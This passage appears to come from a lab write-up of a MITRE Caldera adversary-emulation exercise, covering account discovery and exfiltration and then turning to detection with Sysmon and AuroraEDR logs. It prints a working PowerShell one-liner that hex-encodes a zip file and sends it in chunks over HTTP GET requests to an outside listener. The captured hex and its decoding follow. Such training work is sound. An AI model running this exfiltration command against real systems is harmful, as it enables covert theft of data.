 Four accounts were identified: (Administrator, DefaultAccount, Guest, WDAGUtilityAccount)

**Collection**: Exfiltration Over Unencrypted/Obfuscated Non-C2 Protocol (T1048.003)

<img width="1119" height="273" alt="image" src="https://github.com/user-attachments/assets/cb9ccc84-48ea-422f-8942-8bea60645320" />

**Efiltration**: For the last ability, it didn't run till I modified it from the **adversary profile** and changed the executor to **psh** 

<img width="570" height="312" alt="image" src="https://github.com/user-attachments/assets/a5edc8f0-8af2-4409-add7-df84809221db" />

```powershell

$file="$env:TEMP\exfil.zip"; $destination="http://10.10.1.65:8080/"; $bytes=[System.IO.File]::ReadAllBytes($file); $hex=($bytes|ForEach-Object ToString X2) -join ''; $split=$hex -split '(\S{20})' -ne ''; ForEach ($line in $split) { curl.exe "$destination$line" } echo "Done exfiltrating the data. Check your listener."
```

<img width="1307" height="340" alt="image" src="https://github.com/user-attachments/assets/4057d626-dcf7-49ae-a27a-59bf4a7d7941" />

<img width="1177" height="505" alt="image" src="https://github.com/user-attachments/assets/b8aa00e1-139a-4877-bcb1-fe0072fd7765" />

<img width="1652" height="734" alt="image" src="https://github.com/user-attachments/assets/5b55b145-17ed-471f-84b0-8aa5776e8572" />

There were 23 HTTP GET requests. If you want to decode the hex, combine all the hex values and save them to a file 

```powershell
504B03041400000008002E9B7D56A1A236FD430000005A0000001C000000446F776E6C6F6164735C73656E7369746976655F646174612E747874FBFFCF99219F218F219DA1882191A184A19421074C6782458B191419141842183280FC62200B4226027131432A583E13ACB60CC853604801EB4C64D063E065E0620000504B010214001400000008002E9B7D56A1A236FD430000005A0000001C0000000000000000000000000000000000446F776E6C6F6164735C73656E7369746976655F646174612E747874504B050600000000010001004A0000007D00000000    
```

Then decode it as a zip file

```powershell
root@ip-10-10-1-65:~/Rooms/caldera/http_server# ls
exfilterat.txt  ex.zip  PhishingAttachment.xlsm
root@ip-10-10-1-65:~/Rooms/caldera/http_server# ls
'Downloads\sensitive_data.txt'   exfilterat.txt   ex.zip   PhishingAttachment.xlsm
root@ip-10-10-1-65:~/Rooms/caldera/http_server# cat 'Downloads\sensitive_data.txt' 
\ufffd\ufffdCongratulations! This is a sensitive data.

```

## Emulation on Detection

Review the events generated by executing the emulation activity of the previous task. The logs provided are:

- Sysmon
- AuroraEDR
